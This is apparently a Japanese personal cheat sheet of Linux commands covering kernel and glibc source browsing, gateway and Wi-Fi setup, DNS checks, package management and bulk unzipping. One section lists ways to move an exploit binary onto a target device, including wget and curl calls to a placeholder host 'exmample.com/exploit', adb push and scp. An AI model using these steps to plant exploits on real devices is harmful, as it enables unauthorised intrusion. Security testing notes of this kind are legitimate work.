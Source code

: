 ## Linuxソースコード
<details>
<summary>Linuxコマンド</summary>

https://qiita.com/Nao1215/items/770429ada9fb463ae2ef

Ubuntu環境<br>
https://blog.amedama.jp/entry/ubuntu-fetch-cmd-src

</details>

<details>
<summary>Linuxカーネル</summary>

ダウンロード<br>
https://www.atmarkit.co.jp/ait/articles/1703/01/news171.html

ブラウザ<br>
https://code.woboq.org/linux/linux/ <br>
↑定義元とか追えて便利

https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/

</details>

## GLIBC
<details>
<summary>ブラウザ</summary>

手順①：以下サイトにアクセスし、任意のGLIBCバージョンを選択する<br>
https://sourceware.org/git/?p=glibc.git;a=tags <br>

![image](https://user-images.githubusercontent.com/82632174/188454097-62349095-f2b9-49ec-aa7a-ef3c725492fa.png)


手順②：「tree」を押すとディレクトリ一覧が表示される<br>
![image](https://user-images.githubusercontent.com/82632174/188454130-04c6e402-0ae3-4b67-8cd0-0cfc01cac055.png)

	
手順③：任意のフォルダを開き、該当のソースコードを表示する<br>
![image](https://user-images.githubusercontent.com/82632174/188454152-e31f3803-b50e-42ad-a214-2a2aa6100fdb.png)
	
</details>
	
## ネットワーク

<details>
<summary>デフォルトゲートウェイの変更</summary>

手順⓪：既存ルールの確認

```route -n```<br>
![image](https://user-images.githubusercontent.com/82632174/188447642-c5305410-e13a-49cb-97db-751ce9c3e92e.png)<br>
※多分一番上のゲートウェイが優先ゲートウェイ
	
手順①：デフォルトゲートウェイの削除<br>
`route delete default`
	
手順②：デフォルトゲートウェイの追加<br>
`route add default gw [GWのIPアドレス]`
		
https://centos.bungu-do.jp/archives/11
	
</details>

<details>
<summary>攻撃対象ディレクトリにバイナリを転送する</summary>

①wget exmample.com/exploit

![image](https://user-images.githubusercontent.com/82632174/188448560-c6f94713-be85-4ef8-907d-bceb150f9168.png) <br>
※busyboxにも入っているため使用できるケースが多そう(17M Accordの場合)

②curl -o exmample.com/exploit
	
③adb push [exploitバイナリ] [ターゲット端末の任意パス]
	
④scp [exploitバイナリ] username@remote.example.com:/remote/directory <br>
※ターゲット端末上でsshサーバ(sshd)が有効な場合
	
⑤scp username@remote.example.com:/remote/directory/[exploitバイナリ] /local/directory
	
⑥ftp
	
⑦ブラウザ経由でダウンロード
	
⑧Exploitコードの入ったUSBメモリをターゲットに接続し、シェルからアクセス
	
</details>

<details>
<summary>USBディスクリプタを確認</summary>

`lsusb -s [バス番号]:[デバイス番号] -v`<br>
![image](https://user-images.githubusercontent.com/82632174/188449765-391f6628-f370-465f-ba00-34358ed94cc9.png)

	
</details>

<details>
<summary>hostapdの起動</summary>

`hostapd -B [confファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450168-4df8af7c-34b5-49e5-bf4d-b5690d8fee66.png)

※-B: バックグラウンド実行
	
</details>

<details>
<summary>wpa_supplicantの起動</summary>

`wpa_supplicant -i[NIC] -c[configファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188450438-cfc58f2e-5bbf-42c2-b930-a6860ac2269e.png)


https://www.atmarkit.co.jp/ait/articles/1601/22/news026.html

※-dオプションをつけるとデバッグ情報を表示できる)
	
</details>

<details>
<summary>コマンドラインでのWi-Fi接続設定</summary>

手順①：/etc/wpa_supplicant/wpa-supplicant.confのssidとpskを接続したAPのものに設定する
![image](https://user-images.githubusercontent.com/82632174/188451174-68f7a8a4-dd94-4c9c-b27f-19b4e198b9f4.png)


手順②：機器をリブートする

https://qiita.com/mym/items/468d2cdb30d756b6df24

</details>

<details>
<summary>dhcpcdの起動</summary>

`dhcpcd`<br>
![image](https://user-images.githubusercontent.com/82632174/188451707-95007776-cf1b-4b5a-95c7-ddffcb2a3404.png)

※wpa_supplicantを起動し、APに接続した状態でdhcpcdを起動するとDHCPリクエストを送信しIPが割り当てられる
	
</details>

<details>
<summary>DNS参照先の確認</summary>

Windowsの場合：<br>
`ipconfig /all`<br>
![image](https://user-images.githubusercontent.com/82632174/188452038-596a1eb3-4cfe-4372-ba8c-4b2927c68811.png)

Linuxの場合：<br>
①/etc/resolv.confの中身<br>
②digのレスポンスの「SERVER:」で表示されるIPアドレス<br>
![image](https://user-images.githubusercontent.com/82632174/188452249-d5ddff83-af2f-4000-a1f2-0223c730eb90.png)

Digコマンドレスポンスの見方:
https://qiita.com/hypermkt/items/610b5042d290348a9dfa
	
</details>

## アプリインストール

<details>
<summary>apt アンインストール</summary>

パッケージのみをアンインストール<br>
`sudo apt remove [パッケージ名]`<br>

依存関係のあるパッケージごとアンインストール<br>
`sudo apt --purge remove [パッケージ名]`
	
</details>

<details>
<summary>インストール済みパッケージ一覧を表示</summary>

`sudo dpkg -l`<br>

</details>

<details>
<summary>RPMパッケージインストール</summary>

`rpm -ivh [.rpmファイル]`<br>

https://atmarkit.itmedia.co.jp/flinux/rensai/linuxtips/049instrpm.html#:~:text=RPM%E3%83%91%E3%83%83%E3%82%B1%E3%83%BC%E3%82%B8%E3%82%92%E3%82%A4%E3%83%B3%E3%82%B9%E3%83%88%E3%83%BC%E3%83%AB%E3%81%99%E3%82%8B,%E3%82%92%E7%9F%A5%E3%82%8B%E3%81%93%E3%81%A8%E3%81%8C%E3%81%A7%E3%81%8D%E3%82%8B%E3%80%82

</details>

<details>
<summary>RPMパッケージインストール</summary>

`apt install [.debファイル]`<br>
![image](https://user-images.githubusercontent.com/82632174/188617673-c73f8d80-dedf-4bb8-b374-7333324b020f.png)

</details>

## ファイル操作

<details>
<summary>複数の圧縮ファイルを一括展開</summary>

`for f in *.zip; do unzip -d "${f%*.zip}" "$f"; done`<br>
※zipの部分をapkに変えるとapkの一括展開も可能

https://cocoinit23.com/unzip-each-directory/
	
</details>
